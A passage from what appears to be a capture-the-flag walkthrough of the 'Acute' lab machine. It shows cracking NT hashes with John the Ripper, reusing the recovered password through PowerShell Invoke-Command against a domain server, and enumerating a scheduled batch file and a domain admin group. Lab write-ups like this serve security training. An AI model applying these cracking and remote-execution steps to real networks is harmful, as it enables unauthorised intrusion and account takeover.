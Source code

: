 ```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```
```
                 (Guest)     
Password@123     (Administrator)
```

With a new password we will again use our user list:

```PS
$passwd = ConvertTo-SecureString "Password@123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("Acute\AWallace", $passwd)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {whoami} -Credential $cred
```

![msf_result](images/Acute15.png)

### Phase 5: Domain Dominance

We got it with the fist user. Now let's enumerate for anything interesting. There's another uncommon folder but now in Program Files folder called Keepmeon with bat file in it:

```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Get-Content 'C:\Program Files\Keepmeon\keepmeon.bat'} -Credential $cred 
```

![msf_result](images/Acute16.png)

The file executed every 5 minutes. Remember in the start we found note about Lois user in the document which stated here to be the only site admin. We will check this group in bloodhound and after typing site it reveals site_admin group:

```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group site_admin /domain} -Credential $cred
```

![msf_result](images/Acute17.png)
